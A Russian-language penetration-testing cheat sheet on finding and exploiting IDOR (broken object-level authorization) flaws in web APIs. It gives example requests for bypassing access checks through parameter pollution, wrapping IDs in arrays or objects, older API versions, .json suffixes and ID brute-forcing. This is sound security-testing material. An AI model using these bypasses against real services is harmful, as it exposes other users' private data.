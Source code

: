 ```yaml
---
description: Testing for IDOR/Broken object level authorization
---
```


# IDOR

## Поиск векторов для IDOR

1. Что используется для аутентификации? JWT, API ключи, куки, токены? \
   Пробуем заменять токены в запросах с высокими  привилегиями, на токены учеток с более низкими привилегиями. Смотрим, как меняется ответ сервера.
2. Как исполльзуются идентификаторы, хеши и API в целом. Если есть доступ к документации - круто!

Каждый раз, когда приходит новый API с идентификаторами, спрашиваем себя:

1. Идентификатор принадлежит закрытому ресурсу? (/api/user/123/news или /api/user/123/transaction)
2. Какие идентификаторы принадлежат пользователю?
3. Какие роли есть в API?

## Чейны с IDOR (идеи)

1. IDOR - сама по себе может быть слабой уязвимостью. Если связать ее с XSS - то мы можем получить Stored XSS (пример?)
2. Если IDOR на эндпоинте с UUID, свяжите с Information Disclosure
3. Ну и опять же, проявлять творческих подход)

## Пример обхода проверок

### Добавление параметров

```
GET /api_v1/messages                     --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

### HTTP Parameter pollution

```
GET /api_v1/messages?user_id=VICTIM_ID                     --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK


GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

### Добавление .json к пути, если у нас Ruby

```
/user_data/2341      --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

### Пробовать на других версиях API

```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

### Оборачивание ID в массив

```
{“id”:111}   --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

### Оборачивание ID в JSON объект

```
{“id”:111}        --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

### JSON Parameter Pollution

```
POST /api/get_profile
Content-Type: application/json

{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

## Другие приемы

* Пробовать отправлять wildcard (\*) вместо ID. Это старый прием, но иногда работает.
* Если ID - число, обязательно попробовать побрутать, а не просто угадывать
* Если путь содержит имена, например: /api/users/myinfo, то стоит попробовать: /api/admins/myinfo
* Пробовать разные методы - GET/POST/PUT
* Использовать Burp расширение - autorize
* Если ничего не работает из этого - проявите творческих подход)

IDOR MindMap: [https://xmind.app/m/CSKSWZ/?s=35](https://xmind.app/m/CSKSWZ/?s=35)
